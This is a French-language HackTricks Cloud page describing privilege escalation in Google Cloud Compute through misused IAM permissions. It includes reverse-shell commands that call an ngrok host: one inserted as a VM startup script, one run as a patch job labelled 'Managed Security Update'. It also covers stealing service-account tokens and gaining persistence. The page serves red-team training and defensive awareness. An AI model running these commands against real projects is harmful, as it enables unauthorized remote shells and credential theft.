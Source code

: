 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Pour plus d'informations sur Compute et VPC (réseau) dans GCP, consultez :

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Notez que pour effectuer toutes les attaques d'escalade de privilèges qui nécessitent de modifier les métadonnées de l'instance (comme ajouter de nouveaux utilisateurs et clés SSH), il est **nécessaire d'avoir des permissions `actAs` sur le SA attaché à l'instance**, même si le SA est déjà attaché !
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Avec cette permission, vous pouvez **modifier** les informations de **métadonnées** d'une **instance** et changer les **clés autorisées d'un utilisateur**, ou **créer** un **nouvel utilisateur avec des** permissions sudo. Par conséquent, vous pourrez vous connecter via SSH à n'importe quelle instance VM et voler le compte de service GCP avec lequel l'instance fonctionne.\
Limitations :

* Notez que les comptes de service GCP exécutés dans des instances VM ont par défaut un **champ d'application très limité**
* Vous devrez **pouvoir contacter le serveur SSH** pour vous connecter

Pour plus d'informations sur la façon d'exploiter cette permission, consultez :

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Vous pourriez également effectuer cette attaque en ajoutant un nouveau script de démarrage et en redémarrant l'instance :
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Cette permission donne les **mêmes privilèges que la permission précédente** mais sur des instances spécifiques au lieu d'un projet entier. Les **mêmes exploits et limitations que pour la section précédente s'appliquent**.

### `compute.instances.setIamPolicy`

Ce type de permission vous permettra de **vous accorder un rôle avec les permissions précédentes** et d'escalader les privilèges en les abusant.

### **`compute.instances.osLogin`**

Si **OSLogin est activé dans l'instance**, avec cette permission vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous **n'aurez pas de privilèges root** à l'intérieur de l'instance.

{% hint style="success" %}
Pour vous connecter avec succès avec cette permission à l'intérieur de l'instance VM, vous devez avoir la permission `iam.serviceAccounts.actAs` sur le SA attaché à la VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Si **OSLogin est activé dans l'instance**, avec cette permission vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous aurez **des privilèges root** à l'intérieur de l'instance.

{% hint style="success" %}
Pour vous connecter avec succès avec cette permission à l'intérieur de l'instance VM, vous devez avoir la permission `iam.serviceAccounts.actAs` sur le SA attaché à la VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Il est possible de **créer une machine virtuelle avec un compte de service assigné et de voler le token** du compte de service en accédant aux métadonnées pour escalader les privilèges.

Le script d'exploit pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si vous avez les **permissions `osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, vous pouvez créer un [**travail de patch ou un déploiement**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Cela vous permettra de vous déplacer latéralement dans l'environnement et d'obtenir une exécution de code sur toutes les instances de calcul au sein d'un projet.

Notez qu'à l'heure actuelle, vous **n'avez pas besoin de la permission `actAs`** sur le SA attaché à l'instance.

Si vous souhaitez exploiter cela manuellement, vous devrez créer soit un [**travail de patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ou** [**un déploiement**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Pour un travail de patch, exécutez : 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Pour déployer un déploiement de correctif :
```bash
gcloud compute os-config patch-deployments create <name> ...
```
L'outil [patchy](https://github.com/rek7/patchy) pouvait être utilisé dans le passé pour exploiter cette mauvaise configuration (mais maintenant, il ne fonctionne plus).

**Un attaquant pourrait également en abuser pour la persistance.**

### `compute.machineImages.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour l'image de calcul.

### `compute.snapshots.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour un instantané de disque.

### `compute.disks.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour un disque.

### Contourner les portées d'accès

En suivant ce lien, vous trouverez quelques [**idées pour essayer de contourner les portées d'accès**](../).

### Élévation de privilèges locale dans une instance GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
